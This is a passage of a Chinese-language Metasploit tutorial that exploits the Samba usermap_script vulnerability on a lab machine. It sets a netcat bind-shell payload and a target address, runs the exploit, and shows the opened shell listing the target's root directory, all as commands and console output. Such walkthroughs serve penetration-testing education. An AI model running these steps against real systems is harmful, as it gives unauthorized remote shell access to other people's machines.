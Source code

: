 4 执行"set payload cmd/unix/bind_netcat",即用netcat工具在渗透攻击成功后执行Shell并绑定到一个端口 :
```
msf exploit(multi/samba/usermap_script) > set payload cmd/unix/bind_netcat
payload => cmd/unix/bind_netcat
```

5 执行"show options"查看需要设置哪些配置参数，必选项必须配置，配置方法为set指令:
```
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Payload options (cmd/unix/bind_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > 
```
　　我们可以看到，RHOST即目标机器需要设定。执行“set RHOST 172.16.1.96”

```
msf exploit(multi/samba/usermap_script) > set RHOST 172.16.1.96
RHOST => 172.16.1.96
```

6 执行"exploit"即可开始攻击。

```
msf exploit(multi/samba/usermap_script) > exploit

[*] Started bind handler
[*] Command shell session 1 opened (172.16.1.253:39353 -> 172.16.1.96:4444) at 2018-06-06 14:28:03 +0800

```
　　可以看到攻击成功了，返回了shell绑定在39353端口，输入"ls /"成功显示目标机器的根目录。
```
ls /
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
```